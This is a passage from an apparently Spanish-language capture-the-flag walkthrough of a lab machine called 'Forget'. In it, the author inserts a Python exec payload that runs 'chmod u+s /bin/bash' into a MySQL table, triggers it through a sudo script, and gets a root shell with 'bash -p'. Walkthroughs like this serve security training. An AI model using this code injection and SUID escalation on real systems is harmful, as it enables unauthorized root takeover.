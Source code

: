 ```bash
| forgot        |
| tickets       |
| users         |
+---------------+
5 rows in set (0.00 sec)

mysql> describe escalate;
+--------+------+------+-----+---------+-------+
| Field  | Type | Null | Key | Default | Extra |
+--------+------+------+-----+---------+-------+
| user   | text | YES  |     | NULL    |       |
| issue  | text | YES  |     | NULL    |       |
| link   | text | YES  |     | NULL    |       |
| reason | text | YES  |     | NULL    |       |
+--------+------+------+-----+---------+-------+
4 rows in set (0.00 sec)

mysql> insert into escalate (reason) values ('hello = exec("""__import__("os").system("chmod u+s /bin/bash")""")');
Query OK, 1 row affected (0.06 sec)

mysql> select * from escalate;
+------+-------+------+--------------------------------------------------------------------+
| user | issue | link | reason                                                             |
+------+-------+------+--------------------------------------------------------------------+
| NULL | NULL  | NULL | hello = exec("""__import__("os").system("chmod u+s /bin/bash")""") |
+------+-------+------+--------------------------------------------------------------------+
1 row in set (0.00 sec)

mysql> exit
Bye
```
una vez hecho esto me salgo y ejecuto el script con sudo y vemos que tenemos ya los permisos de root asignados a la bash

![](/assets/img/commons/Forget/terminal1.png)

solo damos bash -p para habilitar los privilegios y tenemos otra máquina completada;)!!

![](/assets/img/commons/Forget/terminal2.png)


 
